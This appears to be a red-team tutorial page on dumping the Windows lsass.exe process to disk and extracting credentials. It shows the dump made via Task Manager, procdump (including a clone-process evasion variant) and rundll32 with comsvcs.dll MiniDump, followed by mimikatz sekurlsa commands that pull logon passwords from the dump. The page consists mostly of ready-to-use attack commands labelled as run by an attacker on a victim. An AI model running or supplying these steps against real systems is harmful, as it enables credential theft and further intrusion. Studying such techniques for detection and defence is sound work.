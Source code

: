 # Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28198%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

